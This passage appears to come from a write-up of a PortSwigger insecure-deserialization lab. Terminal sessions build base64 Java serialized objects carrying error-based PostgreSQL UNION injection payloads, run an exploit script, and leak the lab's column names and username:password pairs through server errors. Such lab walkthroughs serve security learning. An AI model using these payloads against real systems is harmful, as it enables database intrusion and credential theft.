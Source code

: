 
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:21:45
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:22:01
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQApScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgY29sdW1uX25hbWUgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyBXSEVSRSB0YWJsZV9uYW1lPSd1c2VycycgTElNSVQgMSBPRkZTRVQgMSkgQVMgSU5UKSxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ==
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 1) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:22:03
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "password"
```

- Found table `users`'s column: `username`, `password`

**Finally, extract all data from it:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:22:36
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:23:36
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAgycgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgdXNlcm5hbWV8fCc6J3x8cGFzc3dvcmQgRlJPTSB1c2VycyBMSU1JVCAxIE9GRlNFVCAwKSBBUyBJTlQpLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT username||':'||password FROM users LIMIT 1 OFFSET 0) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:23:37
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "administrator:cx84ygpvjtb4tjokq2sz"
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:23:47
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:21
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAgycgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgdXNlcm5hbWV8fCc6J3x8cGFzc3dvcmQgRlJPTSB1c2VycyBMSU1JVCAxIE9GRlNFVCAxKSBBUyBJTlQpLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT username||':'||password FROM users LIMIT 1 OFFSET 1) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:22
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "carlos:07a3yuaqllqixi7fs9d4"
```
